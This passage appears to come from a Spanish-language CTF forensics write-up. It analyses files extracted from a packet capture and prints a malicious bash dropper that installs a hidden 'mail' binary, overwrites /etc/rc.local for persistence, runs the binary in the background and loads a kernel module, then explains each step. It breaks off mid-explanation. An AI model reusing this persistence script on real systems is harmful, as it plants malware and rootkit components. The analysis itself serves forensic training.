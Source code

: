 
No parecen ser html precisamente, tenemos 3 ficheros maliciosos. 

---

<h3 style="color: #0d6efd;">Q9. ¿Cuál es el hash MD5 del malware principal? </h3>

Analizando el último, que es un script: 

```bash
┌──(kali㉿kali)-[~/…/escape/temp_extract_dir/EscapeRoom/pcap_file]
└─$ strings 3
#!/bin/bash
mv 1 /var/mail/mail
chmod +x /var/mail/mail
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
nohup /var/mail/mail > /dev/null 2>&1&
mv 2 /lib/modules/`uname -r`/sysmod.ko
depmod -a
echo "sysmod" >> /etc/modules
modprobe sysmod
sleep 1
pidof mail > /proc/dmesg
rm 3
```

Este script realiza básicamente la instalación de dos componentes maliciosos y asegura su persistencia en el sistema:

1. **Instalación de un binario “mail” en `/var/mail`**

   ```bash
   mv 1 /var/mail/mail
   chmod +x /var/mail/mail
   ```

   * Mueve el fichero numerado `1` a `/var/mail/mail`.
   * Le da permisos de ejecución.

2. **Configuración de arranque automático del “mail”**

   ```bash
   echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
   ```

   * Sobrescribe `/etc/rc.local` para que, en cada arranque, se ejecute `/var/mail/mail` en segundo plano, espere 1 s, escriba el PID del proceso `mail` en `/proc/dmesg` (usado aquí como canal de salida) y termine exitosamente.
   * Así, el “mail” malicioso se lanza automáticamente tras cada reinicio.

3. **Ejecución inmediata en background**

   ```bash
   nohup /var/mail/mail > /dev/null 2>&1 &
   ```

   * Lanza ya mismo el binario `mail` descuidado de la terminal (`nohup`), redirigiendo toda la salida a `/dev/null`, y lo deja corriendo en segundo plano.

4. **Instalación de un módulo de kernel “sysmod”**
